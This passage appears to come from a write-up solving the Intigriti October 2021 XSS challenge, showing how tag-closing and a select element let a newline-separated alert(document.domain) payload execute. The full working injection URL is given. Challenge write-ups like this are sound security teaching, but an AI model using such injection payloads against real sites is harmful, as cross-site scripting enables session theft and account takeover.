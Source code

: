 Note, that the `h1` and `div` first needed to close in order to the select beeing the last element.

The above link lead to the following JavaScript been added to the DOM: `test)]}'null`

`null` is just because no `xss` query parameter is set. If we now change `test` with a comment, and `xss` with a newline and the `alert(document.domain)` payload, we finally have our XSS: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=</h1></div><select id=intigriti><option>// </option>&xss=%0aalert(document.domain)](https://challenge-1021.intigriti.io/challenge/challenge.php?html=</h1></div><select id=intigriti><option>// </option>&xss=%0aalert(document.domain))

## Getting other solutions

I quickly noticed some differences of certain HTML elements. The browser puts the last HTML elements inside of most elements, for example `ul` :
[https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cul%3E](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cul%3E) which leads to the `ul` having the following innerHTML:

```html
<ul>
    <!-- !!! -->
    <div class="a">'"</div>
  
  <div id="container">
      <span>I</span>
      <span id="extra-flicker">N</span>
      <span>T</span>
      <span>I</span>
      <div id="broken">
          <span id="y">G</span>
      </div>
      <span>R</span>
      <div id="broken">
          <span id="y">I</span>
      </div>
      <span>T</span>
      <span>I</span>
  </div>

</ul>
```

however, when using a `select`: [https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cselect%3E](https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Cselect%3E)

```html
<select>
    <!-- !!! -->
    '"
  
  
      I
      N
      T
      I
      
          G
      
      R
      
          I
      
      T
      I
  
```